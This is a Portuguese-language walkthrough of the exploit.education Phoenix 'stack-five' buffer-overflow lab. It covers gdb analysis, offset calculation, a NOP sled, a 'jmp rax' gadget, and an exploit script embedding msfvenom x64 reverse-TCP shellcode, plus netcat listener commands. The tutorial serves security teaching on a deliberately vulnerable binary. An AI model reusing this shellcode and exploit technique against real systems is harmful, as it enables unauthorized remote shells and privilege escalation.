









🎯 Objetivo
Finalmente! Tudo isso para chegar no BOF SRP (clássico) :D
Agora ta na hora de redirecionar o pointer para o nosso código malicioso (shellcode) para ganhar uma shell
💡 Dicas
A instrução 0xCC (int3) serve para no debugger (como o gdb), para quando o rip chegar nela, a execução pausar (breakpoint). Nos podemos usa-la para testar se
sequer conseguimos executar código, ou se o problema ta no shellcode: Se o debugger avisa que teve SIGTRAP, nos temos execução de código :D
Banco de dados de shellcode: shell-storm
🔥 Exploit
Analisando o programa
main() printa o banner e chama start_level()
start_level() cria um buffer[128] e salva o output de gets() (inseguro)
Como você pode ver, não existe complete_level()
Para completar, precisamos executar nosso próprio código (shellcode) e conseguir uma shell (uma linha de comando)
Agora em ASM :D (analise estática)
Normalmente, o gdb printa assim:
0x00000000004005a4 <+0>: push rbp
0x00000000004005a5 <+1>: mov rbp,rsp
0x00000000004005a8 <+4>: sub rsp,0x10
Porem, eu removi os endereços para simplificar, e só mantive os importantes!
Primeiro, vamos ver main
gef> disassemble main
push rbp
mov rbp,rsp <- Prologo
sub rsp,0x10
mov DWORD PTR [rbp-0x4],edi
mov QWORD PTR [rbp-0x10],rsi <- args de puts
mov edi,0x400620
call 0x400400 <puts@plt> <- call puts
mov eax,0x0 <- args de start_level (nenhum)
call 0x40058d <start_level> <- call start_level
mov eax,0x0 <- exit code (código de saida, 0=sem erro)
leave <- Epilogo
Agora vamos ver start_level
gef> disassemble start_level
push rbp
mov rbp,rsp <- Prologo
add rsp,0xffffffffffffff80
lea rax,[rbp-0x80] <- rax = Pointer para buffer[128]
mov rdi,rax <- rdi = rax
0x000000000040059c <+15>:
call 0x4003f0 <gets@plt> <- call gets
nop
leave <- Epilogo
ret
Agora vamos adicionar um breakpoint!
Breakpoint
Breakpoint = ponto de pausa
Antes daquela intrusão ser executada, sera substituída por 0xCC. Isso faz o debugger pausar a execução do programa naquela instrução!
Quando continuamos executando (normalmente o comando é continue), o 0xCC é substituído pela instrução certa :D
Se você esta fora de um debugger, 0xCC vai fazer o programa sair com erro
gef> b *0x000000000040059c
Breakpoint 1 at 0x40059c
"b" é o comando do gdb para adicionar um breakpoint \
A "*" tem haver com aquele dos pointers \
O endereço é para "call gets"
Dica: se você selecionar/sublinhar (clique esquerdo e passa o mouse em cima, você sabe do que eu to falando), e clicar o botão do meio no mouse (a rodinha) o terminal automaticamente da Ctrl-C Ctrl-V naquele valor para você! Então não precisa copiar o endereço manualmente :D
Agora vamos executar o programa (analise dinâmica)
126 As não causam erro, e 127 As causam... ue, mas pq? não era pra dar erro só em 128?
$ python3 -c "print('A'*126)" | ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
$ python3 -c "print('A'*127)" | ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Segmentation fault
Isso vai ser muito importante no próximo desafio: buffers são terminados com um null byte!
Por enquanto, isso só nos mostra que o compilador não adicionou nada no meio do caminho entre o buffer e o EBP+EIP Salvos :D
E nós ja sabemos como controlar o EIP, então agora só precisamos saber para onde redirecionar a execução :)
Encontrar endereço do buffer
Agora dentro do gdb (gdb stack-five)
gef> r <<< $(python3 -c "print('A'100)")*7fff....
stack 
Você também acha que tem uma falta de AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ?? hehehe :P
(((Insira aquele meme muito velho da cabra gritando)))
Então vamos avançar para próxima instrução (step: s) :D

Isso quer dizer que aquele pointer dos argumentos (RDI) agora aponta para os As! :D
gef> x/s 0x00007fffffffe5b0 -> x/s é o comando para printar strings
0x7fffffffe5b0: 'A' <repete 140 vezes>
Então nos ja temos o endereço dos nossos As :D ... que em breve serão shellcode :D
Mas agora precisamos saber com precisão quantos As até o RIP, info frame vai nos ajudar com isso:
gef> info frame
Stack level 0, frame at 0x7fffffffe640:
rip = 0x4005a1 in start_level saved rip = 0x4005c7
called by frame at 0x7fffffffe610
Arglist at 0x7fffffffe630, args:
Locals at 0x7fffffffe630, Previous frame's sp is 0x7fffffffe640
Saved registers:
rbp at 0x7fffffffe630, rip at 0x7fffffffe638
A ultima linha é a mais importante!
RIP em: 0x7fffffffe638
Então para encontrar precisamente quantos As precisamos colocar até chegarmos no RIP,
basta subtrair endereço do rip salvo - endereço dos As
$ python3
>>> 0x7fffffffe638 - 0x00007fffffffe5b0
136
Para confirmar isso, vamos rodar com 136 As + BBBB

RIP = BBBB (42424242) :D
NOP sled
Entretanto, como nada pode ser simples nesse mundo do desenvolvimento de exploits, nós não conseguimos saber com precisão que o buffer vai estar naquela localização :(
Isso ocorre pois as envs são alocadas na stack. E elas variam muito, por exemplo, só de mudar o local de onde o programa esta sendo executado quebraria o nosso exploit.
Dica: O gef pode nos ajudar a encontra-las 
Por exemplo:

Para remediar isso, podemos usar um NOP sled (ou NOP slide) ! :D
(Outro método de remediação é mencionado em stack-six)
NOP significa "No OPeration" (Nenhuma OPeração) ! é uma instrução que não faz nada :D
A representação em machine code do NOP é 0x90 :D Bem fácil de decorar, quem me dera escola fosse fácil assim hehehe :)
O processador vai fazer nada e passar para a próxima, e se nós colocarmos vários desses em sequencia, o RIP vai "deslizando" através até chegar no nosso código!
Você pode imaginar um escorregador :D yuuuuupiii
Então a gente redireciona o RIP para o meio do escorregador de NOPs, para ele deslizar até o nosso código :D
Assim, mesmo se o buffer estiverem em um endereço diferente, o RIP vai chegar no nosso shellcode
Para testar isso, vamos usar o truque do 0xCC mencionado anteriormente
O input que vai passar vai conter:
NOP * 135
0xCC
Endereço para ser colocado no RIP: 0x00007fffffffe5b0 + 70
70 = metade do escorregador (135)
E os breakpoints do gdb serão removidos, então caso encontremos um breakpoint, foi o 0xCC acima
$ python3
>>> hex(0x00007fffffffe5b0 + 70)
'0x7fffffffe5f6' - Little Endian -> '\xb6\xe5\xff\xff\xff\x7f'
Agora executando:
r <<< $(python -c "print '\x90' *135 + '\xcc' +'\xb6\xe5\xff\xff\xff\x7f'")
Nos recebemos uma SIGTRAP (chegou no breakpoint)
[#0] Id 1, Name: "stack-five", stopped, reason: SIGTRAP
E na seção code do gef

Meio difícil de ver, mas tem:
NOP
NOP
INT3
(bad)
(bad)
int3 é o nome de 0xCC, da mesma maneira que NOP é o nome de 0x90
Apos a nossa ultima instrução ha instruções invalidas (bad) que eram o nosso pointer, e logo em seguida o resto do programa normal! :D
Shellcode
Shellcode é o código malicioso que vai ser executado ( normalmente te dando uma shell (terminal) não autorizada )
Nos podemos usar os do link citado na dica, ou gerar uma usando msfvenom (ja vem instalado no kali linux)
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux -a x64 -f python --var-name buf
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of python file: 373 bytes
buf = b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += b"\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
Agora, vamos fazer um exploit mais bem feito! vim /tmp/gerar_exploit.py
buf = b""
# shellcode
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += b"\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
# NOP Sled para completar o resto do tamanho
buf = '\x90'*(136-len(buf)) + buf
# ret
buf += b'\xb6\xe5\xff\xff\xff\x7f'
open("/tmp/exploit","wb").write(buf)
O script /tmp/gerar_exploit.py vai gerar o que colocaríamos no input, mas ao invés de printarmos para o terminal, vamos salvar em um arquivo binário (por isso o "
wb" noopen)!Depois é só ler esse arquivo e redireciona-lo
cat /tmp/exploit | ./stack-five
Porem, se tentamos executar esse exploit, recebemos SIGSEV: violação de segmento
Corrigindo o problema
Nessa eu empaquei, e a solução veio daqui: blog lamarranet
Então valeu pela ajuda :D
Ao invés de colocar o endereço do buffer diretamente no RIP, vamos achar algo no programa original que aponte para ele: um jmp esp por exemplo
E o beneficio é que, por estarmos pulando para uma parte estática, e usando-a para redirecionar para o buffer, não corremos o risco do buffer mudar de endereço!
Isso quer dizer que não precisamos mais do NOP slide :D
ROP Gadgets
Essa é uma técnica chamada programação ROP, que sera discutida em tutoriais futuros :D Mas o que você precisa saber por enquanto é que cada um desses jmps é chamado de gadget
Gadgets são instruções em outras partes do programa, que são reaproveitadas por nos. Geralmente executar algo e pular para outro gadget!
Para achar esse jmp que nos ajudaria, podemos usar uma ferramenta chamada ROPgadget
$ ROPgadget --binary stack-five --only "jmp"
Gadgets information
============================================================
0x0000000000400481 : jmp rax
Unique gadgets found: 1
Isso quer dizer que, ao pular para 0x400481, vamos executar jmp rax e acabar pulando para rax! e para onde rax aponta?
Colocando um break antes do ret de start_level, podemos ver que antes de retornar, rax aponta para o mesmo endereço que rsp, e convenientemente o inicio do nosso buffer

rax,rdi e rsp apontam para o inicio do buffer dos As
Assim, não vamos mais precisar do NOP slide: temos um exploit que 100% dos casos vai apontar para o inicio do buffer!
Só precisamos colocar padding entre o shellcode e o RIP
Então vamos modificar o exploit :D
Dica: Shellcode+AAAAA+ret, Little Endian, 136 bytes ate RIP
Se você não quiser ver a solução enquanto tenta!
.
.
.
.
.
.
.
.
.
.
.
buf = ""
# shellcode
buf += "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += "\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += "\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += "\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += "\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += "\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
# Padding
buf += 'A' * (136 - len(buf))
# ret
buf += '\x81\x04\x40' # Aponta para jmp rax
open("/tmp/exploit","wb").write(buf)
Eu removi o b"" pq tava dando problema :(
Agora basta gerar o exploit: python /tmp/gerar_exploit.py
Abrir um novo terminal: ssh -p 2222 user@localhost
Terminal 1: nc -lvnp 4444
Terminal 2: cat /tmp/exploit | ./stack-five
Agora, no terminal 1 deve ter uma shell :D

Dica:
bash -ipvai deixar a sua shell mais usável
Se nos tivéssemos executado o programa como root, a nossa shell teria esses privilégios elevados ! :D

UID = 0 quer dizer que possuímos privilégios de root, mesmo que o whoami não tenha dito root
E se o programa estivesse exposto para a rede, poderíamos conseguir uma root shell remota :D (spoiler para os próximos desafios hehehe)
Você chegou até aqui :D
Toma mais um gif de panda como presente
💫 Solução
vim /tmp/gerar_exploit.py
buf = ""
# shellcode
buf += "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += "\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += "\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += "\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += "\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += "\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
# Filler
buf += 'A' * (136 - len(buf))
# ret
buf += '\x81\x04\x40' # Aponta para jmp rax
open("/tmp/exploit","wb").write(buf)
Agora basta gerar o exploit: python /tmp/gerar_exploit.py
Abrir um novo terminal: ssh -p 2222 user@localhost
Terminal 1: nc -lvnp 4444
Terminal 2: cat /tmp/exploit | ./stack-five
Agora, no terminal 1 deve ter uma shell :D